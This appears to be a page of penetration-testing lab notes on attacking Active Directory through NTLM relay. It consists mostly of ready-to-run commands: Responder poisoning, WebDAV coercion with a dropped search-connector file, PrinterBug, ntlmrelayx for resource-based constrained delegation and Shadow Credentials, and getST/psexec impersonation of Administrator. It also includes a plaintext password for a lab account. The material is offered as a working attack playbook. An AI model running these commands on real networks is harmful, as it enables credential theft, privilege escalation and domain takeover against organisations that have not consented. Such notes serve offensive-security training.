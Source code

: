 For example, if we want to configure `RBCD` on `SQL01$` to trust authentication coming from `WS01$`, we need to set the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of `SQL01$` to `WS01$`. `WS01$` can then request service tickets on behalf of any user.&#x20;

#### Coerce HTTP NTLM authentication to enable WebClient

```bash
# Drop searchconnector file
crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret

# Check if WebDav is enabled
crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav

# Poison request
sudo python3 Responder.py -I ens192

# Start NTLMrelay with LDAP
sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dump
```

#### Coerce target into HTTP NTLM authentication against our machine

```bash
python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.60 LINUX01@80/print
```

#### The impersonate and get a ticket

```bash
# Get ticket
getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"plaintext$":"o6@ekK5#rlw2rAe"

# And connect 
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local
```

### <mark style="color:yellow;">Shadow Credentials</mark>

`Shadow Credentials` attack effectively adds alternative credentials to an account, allowing attackers to obtain a TGT and subsequently the NTLM hash.

#### Start poisoning and run ntlmrelay

Ntlmrelayx.py will save the `.PFX` certificate and provide the password.

```bash
# Responder
sudo python3 Responder.py -I ens192

# Relay targeting LDAP using NTLM auth
ntlmrelayx.py -t ldap://ZENCORP.LOCAL\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl
```

